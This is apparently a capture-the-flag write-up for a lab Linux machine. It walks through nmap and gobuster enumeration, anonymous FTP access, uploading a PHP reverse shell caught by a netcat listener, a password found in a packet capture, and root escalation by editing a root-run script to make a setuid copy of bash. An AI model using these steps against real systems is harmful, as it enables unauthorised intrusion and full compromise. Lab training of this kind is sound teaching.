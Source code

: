
## NMAP
```
$ nmap -p- 10.10.4.55                    
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-07 19:12 EDT
Nmap scan report for 10.10.4.55
Host is up (0.057s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 76.97 seconds
```
```
$ nmap -sCV -p 21,22,80 10.10.4.55               
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-07 19:14 EDT
Nmap scan report for 10.10.4.55
Host is up (0.052s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.18.22.237
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.56 seconds
```

It's a linux machine with 3 open tcp ports.

## FTP Anonymous Login
```
$ ftp 10.10.4.55        
Connected to 10.10.4.55.
220 (vsFTPd 3.0.3)
Name (10.10.4.55:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||36212|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> 

```

Looking at the files, someone is leaving amongus memes in the drives. Maya is sus. 

We got a username called Maya, may be used for something


## HTTP
```
$ gobuster dir -u http://10.10.4.55 -w /usr/share/wordlists/dirb/big.txt   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.4.55
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/files                (Status: 301) [Size: 308] [--> http://10.10.4.55/files/]
/server-status        (Status: 403) [Size: 275]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

<img src="images/startup.png">


## Reverse shell

Using the ftp server to upload a reverse shell

Trying a PHP reverse shell.

```
ftp> pwd
Remote directory: /ftp
ftp> put /home/kali/Downloads/php-reverse-shell.php rce.php
local: /home/kali/Downloads/php-reverse-shell.php remote: rce.php
229 Entering Extended Passive Mode (|||44678|)
150 Ok to send data.
100% |************************************|  5494        2.45 MiB/s    00:00 ETA
226 Transfer complete.
5494 bytes sent in 00:00 (9.93 KiB/s)
ftp> 
```

<img src="images/rce.png">


### Secret ingridient

```
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```


### We also find a suspicious file

```
$ cd incidents
$ ls
suspicious.pcapng
```

I used a python3 server to get this file out of the machine

<img src="images/suspicious.png">

Ok so this is just a packet log of somethings they found suspicious on the machine.

<img src="images/sus-shel.png">
<img src="images/sus-cd.png">

He also tried to run sudo but he used the wrong password

<img src="images/sus-sudo.png">

<img src="images/sus-passwd.png">
<img src="images/sus-wrong-passwd.png">


**c4ntg3t3n0ughsp1c3.**

Before trying this let's upgrade this shell.

```
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.18.22.237] from (UNKNOWN) [10.10.239.85] 47416
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:31:10 up 52 min,  0 users,  load average: 0.02, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@startup:/$ cd /home
cd /home
www-data@startup:/home$ ls
ls
lennie
www-data@startup:/home$ 
```


```

www-data@startup:/home$ ls
ls
lennie
www-data@startup:/home$ su lennie
su lennie
Password: c4ntg3t3n0ughsp1c3

lennie@startup:/home$ 

```

### Files in lennies folder
```
lennie@startup:~$ ls
ls
Documents  scripts  user.txt
```
```
lennie@startup:~/scripts$ ls -l planner.sh
ls -l planner.sh
-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
```
We can run planner.sh as root. We cannot write on it however.
```
cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

```
ls -l /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

### Change the print.sh file

```
/home$ cat /etc/print.sh
cat /etc/print.sh
#!/bin/bash
cp /bin/bash /tmp/bash
chmod +xs /tmp/bash
```


```
lennie@startup:~/scripts$ ls -l /tmp/bash
-rwsr-sr-x 1 root root 1037528 Oct  8 15:17 /tmp/bash
lennie@startup:~/scripts$ /tmp/bash -p
bash-4.3# whoami
whoami
root
```